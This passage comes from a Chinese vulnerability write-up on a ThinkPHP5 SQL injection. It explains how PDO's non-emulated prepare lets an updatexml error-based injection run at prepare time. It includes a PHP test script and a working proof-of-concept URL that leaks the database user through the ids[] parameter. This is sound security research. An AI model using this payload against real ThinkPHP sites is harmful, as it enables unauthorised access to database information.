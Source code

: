 所以，这个错误“似乎”导致整个过程执行不到第三步，也就没法进行注入了。

但实际上，在预编译的时候，也就是第一步即可利用。我们可以做有一个实验。编写如下代码：

```PHP
&lt;?php
$params = [
    PDO::ATTR_ERRMODE           =&gt; PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_EMULATE_PREPARES  =&gt; false,
];

$db = new PDO('mysql:dbname=cat;host=127.0.0.1;', 'root', 'root', $params);

try {
    $link = $db-&gt;prepare('SELECT * FROM table2 WHERE id in (:where_id, updatexml(0,concat(0xa,user()),0))');
} catch (\PDOException $e) {
    var_dump($e);
}
```

执行发现，虽然我只调用了prepare函数，但原SQL语句中的报错已经成功执行：

[![sp170704_032524.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-fadd9326683e0deeeefd8db4c9b38bfb64fa0f3c.png)](https://www.leavesongs.com/media/attachment/2017/07/04/52d04bac-33d8-4c8e-be6c-5ed5878fa387.png)

究其原因，是因为我这里设置了`PDO::ATTR_EMULATE_PREPARES =&gt; false`。

这个选项涉及到PDO的“预处理”机制：因为不是所有数据库驱动都支持SQL预编译，所以PDO存在“模拟预处理机制”。如果说开启了模拟预处理，那么PDO内部会模拟参数绑定的过程，SQL语句是在最后`execute()`的时候才发送给数据库执行；如果我这里设置了`PDO::ATTR_EMULATE_PREPARES =&gt; false`，那么PDO不会模拟预处理，参数化绑定的整个过程都是和Mysql交互进行的。

非模拟预处理的情况下，参数化绑定过程分两步：第一步是prepare阶段，发送带有占位符的sql语句到mysql服务器（parsing-&gt;resolution），第二步是多次发送占位符参数给mysql服务器进行执行（多次执行optimization-&gt;execution）。

这时，假设在第一步执行`prepare($SQL)`的时候我的SQL语句就出现错误了，那么就会直接由mysql那边抛出异常，不会再执行第二步。我们看看ThinkPHP5的默认配置：

```php
...
// PDO连接参数
protected $params = [
    PDO::ATTR_CASE              =&gt; PDO::CASE_NATURAL,
    PDO::ATTR_ERRMODE           =&gt; PDO::ERRMODE_EXCEPTION,
    PDO::ATTR_ORACLE_NULLS      =&gt; PDO::NULL_NATURAL,
    PDO::ATTR_STRINGIFY_FETCHES =&gt; false,
    PDO::ATTR_EMULATE_PREPARES  =&gt; false,
];
...
```

可见，这里的确设置了`PDO::ATTR_EMULATE_PREPARES =&gt; false`。所以，终上所述，我构造如下POC，即可利用报错注入，获取user()信息：

[http://localhost/thinkphp5/public/index.php?ids\[0,updatexml(0,concat(0xa,user()),0)\]=1231](http://localhost/thinkphp5/public/index.php?ids%5B0,updatexml(0,concat(0xa,user()),0)%5D=1231)

[![sp170704_021313.png](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-bbcc651c211389a9b04bbf12783bed0d300f6d06.png)](https://www.leavesongs.com/media/attachment/2017/07/04/2d22af8c-04ec-4b7d-9fb3-0709ae5c4ab0.png)
